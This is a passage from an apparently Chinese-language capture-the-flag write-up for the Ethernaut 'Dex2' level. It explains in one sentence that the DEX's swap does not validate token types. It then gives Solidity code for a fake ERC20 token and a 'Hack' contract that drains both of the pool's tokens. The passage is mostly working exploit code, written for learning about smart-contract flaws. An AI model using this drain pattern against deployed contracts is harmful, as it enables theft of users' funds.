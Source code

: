 ```solidity
    }

}
```

## 22-Dex2

交换的时候没有检查 token 类型，所以可以利用第三个 token 去交换出现有的所有 token

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.20;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol";


interface IDEX2{

    function token1() external view returns(address);
    function token2() external view returns(address);
    function add_liquidity(address token_address, uint amount) external;
    function swap(address from, address to, uint amount) external;
}

contract token3 is ERC20{
    constructor() ERC20("Token3", "TK3") {
        _mint(msg.sender, 100);
    }

}

contract Hack {
    IDEX2 private idex2;
    IERC20 private token1;
    IERC20 private token2;
    IERC20 private token3;

    constructor(address target, address _token3) {
        idex2 = IDEX2(target);
        token1 = IERC20(idex2.token1());
        token2 = IERC20(idex2.token2());
        token3 = IERC20(_token3);
    }

    function hack() external {
        token3.transferFrom(msg.sender, address(this), 100);
        token3.approve(address(idex2), 100);
        token3.transferFrom(address(this), address(idex2), 1);
        idex2.swap(address(token3), address(token1), 1);
        idex2.swap(address(token3), address(token2), 2);
    }


}
```
